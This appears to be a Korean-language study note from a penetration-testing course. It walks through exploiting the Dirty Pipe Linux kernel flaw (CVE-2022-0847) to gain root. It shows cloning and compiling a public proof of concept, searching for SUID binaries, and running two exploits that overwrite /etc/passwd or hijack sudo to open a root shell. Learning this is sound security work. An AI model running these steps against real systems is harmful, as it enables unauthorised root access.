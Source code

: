 리눅스 커널 취약점인 Dirty Pipe(CVE_2022-0847) 취약점은 리눅스에서 루트 사용자 파일에 대한 무단 쓰기를 허용한다. 취약한 대상은 아래 버전의 모든 커널이다.
- **5.8~5.17**

익스플로잇을 위해서 PoC를 다운로드하여 대상 시스템 자체 또는 우리가 만든 사본에서 컴파일 해야한다.
```powershell
cry0l1t3@nix02:~$ git clone <https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits.git>
cry0l1t3@nix02:~$ cd CVE-2022-0847-DirtyPipe-Exploits
cry0l1t3@nix02:~$ bash compile.sh
```

→ 컴파일 이후 두 가지 익스플로잇을 실행할 수 있다.

**exploit-1** 은 /etc/passwd 를 수정하고 루트 권한이 있는 프롬프트를 표시한다

**커널 버전 확인**
```powershell
cry0l1t3@nix02:~$ uname -r

5.13.0-46-generic
```

**Exploit**
```powershell
cry0l1t3@nix02:~$ ./exploit-1

Backing up /etc/passwd to /tmp/passwd.bak ...
Setting root password to "piped"...
Password: Restoring /etc/passwd from /tmp/passwd.bak...
Done! Popping shell... (run commands now)

id

uid=0(root) gid=0(root) groups=0(root)
```

**exploit-2**는 SUID 바이너리를 root 권한으로 실행할 수 있다. 따라서, SUID 가 설정된 바이너리부터 찾아야 한다.

**SUID 탐색**
```powershell
cry0l1t3@nix02:~$ find / -perm -4000 2>/dev/null

/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/xorg/Xorg.wrap
/usr/sbin/pppd
/usr/bin/chfn
/usr/bin/su
/usr/bin/chsh
/usr/bin/umount
/usr/bin/passwd
/usr/bin/fusermount
/usr/bin/sudo
/usr/bin/vmware-user-suid-wrapper
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/pkexec
/usr/bin/newgrp
```

**sudo 바이너리로 익스플로잇**
```powershell
cry0l1t3@nix02:~$ ./exploit-2 /usr/bin/sudo

[+] hijacking suid binary..
[+] dropping suid shell..
[+] restoring suid binary..
[+] popping root shell.. (dont forget to clean up /tmp/sh ;))

# id

uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),131(lxd),132(sambashare),1000(cry0l1t3)
```